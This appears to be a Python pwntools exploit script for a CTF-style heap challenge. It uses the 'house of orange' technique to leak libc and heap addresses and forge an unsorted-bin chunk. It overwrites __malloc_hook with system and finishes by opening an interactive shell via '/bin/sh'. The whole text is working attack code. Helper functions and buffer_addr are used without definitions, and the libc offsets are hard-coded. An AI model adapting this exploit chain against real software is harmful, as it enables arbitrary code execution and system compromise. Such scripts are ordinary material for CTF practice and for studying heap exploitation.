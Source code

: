 ```python


# launch_gdb()
p.recvuntil('Author :')
p.send('a'*64)
p.recvuntil('Your choice :')


# house of orange

add(0x18, 'b'*0x18)  # 0
edit(0, 'b'*0x18)
edit(0, '\x00'*0x18+'\xe1\x0f\x00')

add(0x1ffe1, 'c'*20)  # 1


add(0x40,'d'*8)  # 2

for i in range(6):
    add(0x40,'e'*8)
view(3)
p.recvuntil('e' * 8)
leak_libc_addr = u64(p.recv(6).ljust(8, '\x00'))
log.info('leak libc addr = ' + hex(leak_libc_addr))
sys_addr = 0x7febe6678390-0x7febe69f6b78+leak_libc_addr
log.info('sys addr = '+hex(sys_addr))
malloc_hook_addr = 0x7f5826fc7b10-0x7f5826fc7b78+leak_libc_addr
log.info('malloc hook addr = '+hex(malloc_hook_addr))

p.sendline('4')
p.recvuntil('Author : ')
p.recvuntil('a'*64)
leak_heap = u64(p.recv(4).ljust(8,'\x00'))
log.info('leak heap address = ' + hex(leak_heap))
p.recvuntil('Do you want to change the author ? (yes:1 / no:0) ')
p.sendline('1')
p.recvuntil('Author :')
p.send('/bin/sh\x00'+p64(0x111)+p64(leak_libc_addr)+p64(leak_libc_addr)+p64(0)*4)
#伪造一个 unsorted bin leak_libc_addr---链表头地址
p.recvuntil('Your choice :')

edit(0,p64(0))
add(0x50,'a'*10)

edit(0,p64(0)*84+p64(0xdead)+p64(0x41)+p64(buffer_addr)+p64(buffer_addr))#+p64(0xdeadbeefdeadbeef)*7)

add(0x100, 'a'*48+p64(malloc_hook_addr-8))

edit(0,p64(0)+p64(sys_addr))

p.sendline('1')
p.recvuntil('Size of page :')
p.sendline(str(buffer_addr))

p.interactive()
```
